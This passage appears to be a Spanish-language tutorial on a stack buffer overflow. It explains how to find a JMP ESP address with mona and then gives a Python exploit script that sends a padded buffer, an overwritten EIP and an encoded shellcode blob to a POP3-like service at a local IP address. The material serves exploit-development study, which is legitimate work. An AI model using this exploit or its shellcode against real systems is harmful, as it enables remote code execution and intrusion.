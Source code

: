 ### Esto nos devolverá el **OpCode** de **jmp ESP** ( FFE4 = \\xFF\\xE4 ) el cual al no ser una dirección (Solo un OpCode) no debemos darle la vuelta como little endian.

### Una vez con este **OpCode** haciendo uso de mona con el comando **!mona modules** podremos ver los módulos que se usan en el programa donde tendremos que buscar uno que tenga las 4 primeras columnas en *FALSE* para buscar (**!mona find -s ""\\xFF\\xE4" -m {module_name}**) si existe el OpCode **JMP ESP** dentro del modulo, en caso de que existe, devolverá múltiples direcciones de memoria y seleccionaremos una (La cual no tiene que contener badchars). 
### En algunos casos puede ser que nos diga que se encontraron un total de *0 pointers*, en este caso podemos hacer uso en lugar de "find" de "findwild" (*!mona help findwild*) para buscar por instrucciones (*!mona findwild -s "JMP ESP"*)

### Ahora nuestro **EIP** tiene que valer esta dirección en memoria encontrada dentro de uno de los módulos donde existe el OpCode dentro en una dirección en particular, la cual copiamos y representamos en little endian o, si estamos en python, con la librería *struct* la función *pack*.

```python
#!/usr/bin/python3 

import socket
import sys 
from struct import pack 
ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4a358f) # "<L" para indicar que es littel endian (5f4a358f es una de las direcciones donde se encontro el OpCode JMP ESP del modulo seleccionado)
shellcode = (b"\xbd\xb9\xba\x5a\xae\xd9\xe5\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x52\x31\x6f\x12\x83\xc7\x04\x03\xd6\xb4\xb8\x5b\xd4"
b"\x21\xbe\xa4\x24\xb2\xdf\x2d\xc1\x83\xdf\x4a\x82\xb4\xef"
b"\x19\xc6\x38\x9b\x4c\xf2\xcb\xe9\x58\xf5\x7c\x47\xbf\x38"
b"\x7c\xf4\x83\x5b\xfe\x07\xd0\xbb\x3f\xc8\x25\xba\x78\x35"
b"\xc7\xee\xd1\x31\x7a\x1e\x55\x0f\x47\x95\x25\x81\xcf\x4a"
b"\xfd\xa0\xfe\xdd\x75\xfb\x20\xdc\x5a\x77\x69\xc6\xbf\xb2"
b"\x23\x7d\x0b\x48\xb2\x57\x45\xb1\x19\x96\x69\x40\x63\xdf"
b"\x4e\xbb\x16\x29\xad\x46\x21\xee\xcf\x9c\xa4\xf4\x68\x56"
b"\x1e\xd0\x89\xbb\xf9\x93\x86\x70\x8d\xfb\x8a\x87\x42\x70"
b"\xb6\x0c\x65\x56\x3e\x56\x42\x72\x1a\x0c\xeb\x23\xc6\xe3"
b"\x14\x33\xa9\x5c\xb1\x38\x44\x88\xc8\x63\x01\x7d\xe1\x9b"
b"\xd1\xe9\x72\xe8\xe3\xb6\x28\x66\x48\x3e\xf7\x71\xaf\x15"
b"\x4f\xed\x4e\x96\xb0\x24\x95\xc2\xe0\x5e\x3c\x6b\x6b\x9e"
b"\xc1\xbe\x3c\xce\x6d\x11\xfd\xbe\xcd\xc1\x95\xd4\xc1\x3e"
b"\x85\xd7\x0b\x57\x2c\x22\xdc\x98\x19\x2d\x3d\x71\x58\x2d"
b"\x3c\x3a\xd5\xcb\x54\x2c\xb0\x44\xc1\xd5\x99\x1e\x70\x19"
b"\x34\x5b\xb2\x91\xbb\x9c\x7d\x52\xb1\x8e\xea\x92\x8c\xec"
b"\xbd\xad\x3a\x98\x22\x3f\xa1\x58\x2c\x5c\x7e\x0f\x79\x92"
b"\x77\xc5\x97\x8d\x21\xfb\x65\x4b\x09\xbf\xb1\xa8\x94\x3e"
b"\x37\x94\xb2\x50\x81\x15\xff\x04\x5d\x40\xa9\xf2\x1b\x3a"
b"\x1b\xac\xf5\x91\xf5\x38\x83\xd9\xc5\x3e\x8c\x37\xb0\xde"
b"\x3d\xee\x85\xe1\xf2\x66\x02\x9a\xee\x16\xed\x71\xab\x37"
b"\x0c\x53\xc6\xdf\x89\x36\x6b\x82\x29\xed\xa8\xbb\xa9\x07"
b"\x51\x38\xb1\x62\x54\x04\x75\x9f\x24\x15\x10\x9f\x9b\x16"
b"\x31")
```